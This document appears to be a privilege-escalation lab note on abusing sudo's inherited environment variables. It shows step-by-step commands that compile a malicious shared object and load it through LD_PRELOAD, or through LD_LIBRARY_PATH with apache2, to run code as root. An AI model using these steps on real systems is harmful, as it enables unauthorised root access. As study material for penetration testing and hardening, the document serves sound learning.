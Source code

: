 
Sudo can be configured to inherit certain environment variables from the user's environment.

# Exploiting

### Method 1:  LD_PRELOAD using (preload.c)

Check which environment variables are inherited (look for the env_keep options):

```bash
sudo -l
```

LD_PRELOAD and LD_LIBRARY_PATH are both inherited from the user's environment. LD_PRELOAD loads a shared object before any others when a program is run. LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.

Create a shared object using the code preload.c (in this example it is located at `/home/user/tools/sudo/preload.c`):

```bash
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

Run one of the programs you are allowed to run via sudo (listed when running **sudo -l**), while setting the LD_PRELOAD environment variable to the full path of the new shared object:

```bash
sudo LD_PRELOAD=/tmp/preload.so <program-name-here>
```

### Method 2:  LD_LIBRARY_PATH using (library.c)

Run ldd against the apache2 program file to see which shared libraries are used by the program, there is a reason why we chose apache2 command, because we can run it with sudo permissions without password need (run `sudo -l` to see which sudo commands you can run):

```bash
ldd /usr/sbin/apache2
```

Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code library.c (in this example it is located at ``/home/user/tools/sudo/library_path.c`):

```bash
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

Run apache2 using sudo, while settings the LD_LIBRARY_PATH environment variable to /tmp (where we output the compiled shared object):

```bash
sudo LD_LIBRARY_PATH=/tmp apache2
```

Note: when I tried the libpcre.so.3 library I got `undefined symbol: pcre_free` and for this one I found a solution which is adding a dummy code "void pcre_free(){} " to library.c code and it worked.